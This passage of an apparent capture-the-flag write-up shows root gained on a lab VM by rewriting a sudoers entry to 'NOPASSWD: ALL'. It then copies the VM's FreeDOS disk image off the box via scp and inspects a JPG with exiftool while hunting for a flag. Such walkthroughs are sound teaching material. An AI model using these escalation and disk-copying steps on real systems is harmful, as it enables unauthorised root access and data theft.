 Change the following line:

```
margo ALL=(ALL) NOPASSWD: ALL#/usr/bin/convert
```

And voilà.

```
margo@gibson:~$ sudo su
root@gibson:/home/margo# 
```

## FreeDOS?

The virt-manager GUI appeared, and only one machine named "ftpserv" existed. I opened a shell by double-clicking it and discovered that it was running a FreeDOS :-O Had to Google quite a bit at this point...

Once I thought I could continue, I started by exploring the directories. After a `dir` I found this directory named GARBAGE which catched my attention.

```
cd garbage
dir

ADMINSPO.JPG
FLAG.IMG
JZ_UG.ANS
```

The FLAG.IMG seemed interesting, but I had to find a way to take it outside the box.

I decided to go big and copied the full VM disk image to my Kali box. I'm subtle as that :)

At this point, the root permissions became a need, so I modified the sudoers file as explained before.

```
margo@gibson:~$ sudo su
root@gibson:/home/margo# cp /var/lib/libvirt/images/ftpserv.img /tmp/
root@gibson:/home/margo# chown margo /tmp/ftpserv.img
```

And then I was able to get it from my Kali:

```
root@kali:~# scp margo@192.168.56.102:/tmp/ftpserv.img gibson
```

## Getting the flag

I mounted the image (fun name, KFLYNN, Kevin Flynn from Tron!) and went to `garbage`.

There I ran `exiftool` to peek on the metadata of the JPG file:

```
root@kali:/media/root/KFYLNN/GARBAGE# exiftool adminspo.jpg
ExifTool Version Number         : 10.15
File Name                       : adminspo.jpg
Directory                       : .
File Size                       : 120 kB
File Modification Date/Time     : 2016:05:04 23:17:44+02:00
File Access Date/Time           : 1980:01:01 01:00:00+01:00
File Inode Change Date/Time     : 2016:05:04 23:31:08+02:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Big-endian (Motorola, MM)
```